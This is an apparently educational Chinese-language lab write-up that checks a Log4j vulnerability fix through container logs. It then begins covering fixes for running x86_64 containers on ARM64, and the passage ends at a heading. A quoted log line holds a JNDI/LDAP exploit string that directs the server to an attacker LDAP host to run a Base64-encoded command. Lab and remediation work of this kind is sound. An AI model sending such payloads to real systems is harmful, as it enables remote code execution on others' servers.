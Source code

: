 
##### Log4j 漏洞修复验证分析

###### 日志分析结果

通过 `docker logs musing_lichterman | grep -i jndi`命令输出的结果，我们可以清晰地看到漏洞修复成功的证据：

###### 关键发现

1. **JNDI表达式被当作普通文本处理**

   ```
   2025-03-24 06:03:43.896 ERROR 1 --- [nio-8080-exec-1] c.e.l.Log4j2RceApplication : $jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQK
   ```

   注意表达式以 `$jndi` 而不是 `${jndi}` 形式出现，这表明表达式没有被解析执行。
2. **多次攻击尝试均无效**
   日志显示在6:03、6:13和6:14时间点有多次攻击尝试，但所有请求都只是被当作普通字符串记录下来。
3. **应用正常运行**
   服务器在收到攻击请求后继续正常运行，没有出现崩溃或异常行为。
4. **没有LDAP连接尝试**
   没有任何日志表明系统尝试进行LDAP连接或执行Base64编码的命令。

###### 综合结论

漏洞修复已经成功实施：

1. 成功移除了 `JndiLookup`类，完全禁用了JNDI查找功能
2. 攻击载荷被当作普通文本处理，不会触发任何代码执行
3. 即使面对多次攻击尝试，应用也保持稳定运行
4. 日志中清晰记录了攻击尝试但没有执行危险操作

这种通过直接从JAR包中移除有问题的类文件的修复方法比简单的配置参数调整更彻底，为应用提供了永久性的保护，防止此类漏洞被利用。

# 出现的问题解决

# Log4j 漏洞实验问题与解决方案总结

## 1. 环境搭建问题

### ARM64系统运行x86_64架构容器问题

**问题描述**：在ARM64架构的Mac上运行vulfocus容器(x86_64架构)时出现`exec /bin/sh: exec format error`错误，导致容器启动后立即退出。

**解决方案**：
- 安装QEMU用户态模拟工具：`sudo apt-get install qemu-user-static`
- 配置多架构支持：`sudo docker run --privileged --rm tonistiigi/binfmt --install all`
- 在Docker Compose中指定平台：添加`platform: linux/amd64`参数
- 验证跨架构支持：`docker run --platform linux/amd64 --rm -it alpine:latest sh -c "uname -m"`

## 2. 漏洞缓解阶段问题
